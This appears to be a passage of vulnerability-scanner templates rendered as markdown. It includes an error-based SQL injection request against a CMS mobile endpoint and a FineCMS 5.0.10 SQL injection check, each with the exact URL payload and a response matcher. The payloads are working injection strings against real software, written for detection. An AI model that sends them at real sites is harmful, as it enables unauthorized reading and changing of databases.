 ## Requests

- Method - GET

### URL

- {{BaseURL}}/upload/mobile/index.php?c=category&a=asynclist&price_max=1.0%20AND%20(SELECT%201%20FROM(SELECT%20COUNT(*),CONCAT(0x7e,md5({{num}}),0x7e,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.CHARACTER_SETS%20GROUP%20BY%20x)a)''

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. {{md5({{num}})}}
- part - body

---

# FineCMS 5.0.10 - SQL Injection

## Description

- FineCMS 5.0.10 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - finecms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=sql%20sql=%27select%20md5({{num}})%27

### Matchers

**Type - word**

- words
  1. {{md5({{num}})}}

---
